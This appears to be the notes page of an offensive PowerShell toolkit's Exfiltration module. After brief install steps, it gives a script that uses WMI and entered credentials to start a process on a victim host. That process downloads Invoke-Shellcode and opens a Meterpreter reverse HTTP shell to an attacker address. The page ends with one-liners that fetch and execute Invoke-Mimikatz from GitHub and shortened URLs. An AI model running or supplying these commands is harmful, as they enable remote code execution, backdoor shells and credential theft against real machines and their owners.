 To install this module, drop the entire Exfiltration folder into one of your module directories. The default PowerShell module paths are listed in the $Env:PSModulePath environment variable.

The default per-user module path is: "$Env:HomeDrive$Env:HOMEPATH\Documents\WindowsPowerShell\Modules"
The default computer-level module path is: "$Env:windir\System32\WindowsPowerShell\v1.0\Modules"

To use the module, type `Import-Module Exfiltration`

To see the commands imported, type `Get-Command -Module Exfiltration`

For help on each individual command, Get-Help is your friend.

Note: The tools contained within this module were all designed such that they can be run individually. Including them in a module simply lends itself to increased portability.





___________________________________________________________________________________

$VictimIP = '192.168.124.130'
$AttackerIP = '192.168.124.1'
$Hostname = 'WIN-92SPQPW9R24'
$Username = 'DevelopersDevelopersDevelopers'
$Credential = Get-Credential -Credential "$Hostname\$Username"
# Attacker then enters the password of the user
$Command = {Invoke-Shellcode -Payload windows/meterpreter/reverse_http -Lhost $AttackerIP -Lport 80}
$InvokeShellcodeUrl = 'https://raw.githubusercontent.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1'
$PayloadString = "iex(New-Object Net.WebClient).DownloadString('$InvokeShellcodeUrl');$Command"
 
$Parameters = @{
    ComputerName = $VictimIP
    Credential = $Credential
    Class = 'Win32_Process'
    Name = 'Create'
    ArgumentList = "powershell -nop -c $PayloadString"
}
 
Invoke-WmiMethod @Parameters






IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Blue-Fin/ShellScript/master/Exfiltration/Invoke-Mimikatz.ps1")

or 

IEX (New-Object Net.WebClient).DownloadString("http://bit.ly/2yNKBNr")



IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")
or
IEX (New-Object Net.WebClient).DownloadString("http://bit.ly/1ok4Pmt")